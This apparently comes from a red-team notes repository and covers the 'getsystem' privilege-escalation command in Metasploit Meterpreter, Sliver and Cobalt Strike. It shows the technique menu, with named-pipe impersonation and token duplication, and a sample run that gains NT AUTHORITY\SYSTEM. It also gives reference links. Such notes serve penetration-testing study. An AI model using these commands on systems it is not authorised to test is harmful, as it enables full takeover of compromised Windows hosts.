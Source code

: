 # Getsystem

## 01 - Manual

TODO: Write information related to getsystem that is done without using Command and Control (C2) frameworks

## 02 - Metasploit

### 2.1 - Help Menu

```
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h   Help Banner.
    -t   The technique to use. (Default to '0').
		0 : All techniques available
		1 : Named Pipe Impersonation (In Memory/Admin)
		2 : Named Pipe Impersonation (Dropper/Admin)
		3 : Token Duplication (In Memory/Admin)
		4 : Named Pipe Impersonation (RPCSS variant)
		5 : Named Pipe Impersonation (PrintSpooler variant)
```

### 2.2 - Basics

```
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 03 - Sliver

TODO: Write more information about getsystem sliver command with help menu

`sliver (IMPLANT_NAME) > getsystem`

## 04 - Cobalt Strike

`beacon> getsystem`



---
## References

- [What Happens When I Type Getsystem](https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/)

- [XPNSec Blog: Becoming System](https://blog.xpnsec.com/becoming-system/)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)

- [Helpsystems: Cobalt Strike Privilege Escalation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/post-exploitation_privilege-escalation.htm)

- [HarmJ0y Get-System.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Get-System.ps1)

- [GetSystem C# implementation](https://github.com/py7hagoras/GetSystem)